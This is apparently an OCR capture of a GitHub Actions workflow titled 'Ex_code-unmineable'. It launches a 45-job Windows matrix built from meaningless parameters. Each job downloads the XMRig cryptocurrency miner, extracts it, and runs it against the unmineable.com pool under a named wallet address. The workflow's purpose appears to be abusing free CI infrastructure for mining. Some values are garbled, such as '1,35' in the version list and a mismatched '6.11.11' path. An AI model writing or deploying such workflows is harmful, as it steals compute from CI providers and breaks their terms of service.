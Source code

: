 # gaskun
name: Ex_code-unmineable   on: [workflow_dispatch]   jobs:   build:     name: Ex-code     runs-on: windows-latest     strategy:       max-parallel: 5       fail-fast: false       matrix:         go: [1.0, 1.1, 1.2, 1.3, 1,35]         flag: [A, B, C, D, E, F, G, H, I]     env:         NUM_JOBS: 20         JOB: ${{ matrix.go }}     steps:     - name: DOWNLOAD       run: Invoke-WebRequest https://github.com/xmrig/xmrig/releases/download/v6.11.1/xmrig-6.11.1-msvc-win64.zip -OutFile xmrig-6.11.1-msvc-win64.zip     - name: Extract       run: Expand-Archive xmrig-6.11.1-msvc-win64.zip     - name: RUNNING       run: .\xmrig-6.11.1-msvc-win64\xmrig-6.11.11\xmrig.exe -o rx-us.unmineable.com:3333 -u UNI:0x0D85F6Ba2851606E8C195395E1fe45f4d1D8814a.samfx1 -p x -k     - name: DONE       run: exit
